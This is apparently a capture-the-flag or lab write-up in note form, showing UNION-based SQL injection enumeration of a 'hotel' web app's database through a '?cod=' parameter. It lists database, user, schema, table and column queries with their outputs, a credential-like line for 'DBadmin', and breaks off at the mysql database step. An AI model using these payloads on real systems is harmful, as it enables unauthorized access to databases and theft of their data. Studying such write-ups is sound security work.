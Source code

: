 → [localhost](http://localhost), DBadmin, 2D2B7A5E4E637B8FBA1D17F40318F277D29964D0

---

***Exact SQL Enumeration***

- **Check Database - hotel**
    
    ### Some queries and there Output:
    
    Current Database Name:
    
    - SELECT database() 
    → hotel
    
    Current User Name:
    
    - SELECT user() 
    → DBadmin@localhost
    
    Database Name:
    
    - SELECT group_concat(Schema_NAME) FROM Information_Schema.SCHEMATA
    → hotel, information_schema, mysql, performance_schema
    
    Table Names:
    
    - SELECT group_concat(TABLE_NAME) FROM Information_Schema.TABLES WHERE TABLE_SCHEMA = 'hotel'
    → room
    
    Colum Name:
    
    - SELECT group_concat(COLUMN_NAME) FROM Information_Schema.COLUMNS WHERE TABLE_SCHEMA = 'hotel'
    → cod, name, price, descrip, star, image, mini
    - *Table and Colum Name clean output:*
        - ?cod=999 union select 1,2,(select group_concat(TABLE_NAME,":",COLUMN_NAME,"\r\n") from Information_Schema.COLUMNS where TABLE_SCHEMA = 'hotel'),4,5,6,7
        
        ```
        1. room:cod
        2. room:name
        3. room:price
        4. room:descrip
        5. room:star
        6. room:image
        7. room:mini
        ```
        
    
    ### Now we know:
    
    - Database Name: **hotel**
    - Tablename: **room**
    - All 7 Colum Names: **cod, name, price, descrip, star, image, mini**
    
    In this Database and Table is nothing Iterersitng...
    
- **Check Database - mysql**
    